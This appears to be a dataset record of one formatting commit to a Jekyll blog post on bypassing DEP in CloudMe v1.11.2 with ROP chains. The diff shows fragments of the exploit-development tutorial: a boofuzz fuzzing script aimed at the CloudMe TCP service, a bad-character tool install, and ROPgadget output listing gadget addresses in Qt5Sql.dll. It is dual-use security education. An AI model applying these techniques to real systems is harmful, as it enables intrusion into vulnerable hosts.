

Before and after one commit to xen0vas/xen0vas.github.io, a Jekyll site: the page built from _posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md, in a window 1280 px wide and 900 px high, scrolled down 22753 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
DEP Bypass using ROP chains

````diff
--- a/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
+++ b/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
@@ -109,7 +109,8 @@
 
 def main():
 
-	session = Session(target = Target(connection = SocketConnection(host, port, proto='tcp')))
+	session = Session(
+      target = Target(connection = SocketConnection(host, port, proto='tcp')))
 
 	s_initialize("CloudMe")	#just giving our session a name
 	s_string("FUZZ")
@@ -359,9 +360,10 @@
 <h3>3. The Bad Characters</h3>
 <p align="justify">At this point, before moving further to exploitation, its time to search for bad characters. First, we will use a hex character generator to generate all the 256 ascii hex characters. A nice hex character generator can be cloned from <a href="https://github.com/cytopia/badchars">here</a>. We can also install badchars in our Kali machine as follows</p>
 
-```
+
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 pip3 install badchars
-```
+</pre>
 
 <p align="justify">Then we will generate the hex chars as follows</p>
 
@@ -611,7 +613,7 @@
 $ python ROPgadget.py --binary "C:\Users\pentest\AppData\Local\Programs\CloudMe\CloudMe\Qt5Sql.dll" --only "ret" --depth 5 --badbytes "00"
 Gadgets information
 ============================================================
-0x6d9c1011 : ret
+<span style="color:#ff0000;">0x6d9c1011 : ret</span>
 0x6d9c35b1 : ret 0
 0x6d9cf7e4 : ret 0x10
 0x6d9d782a : ret 0x11b
````
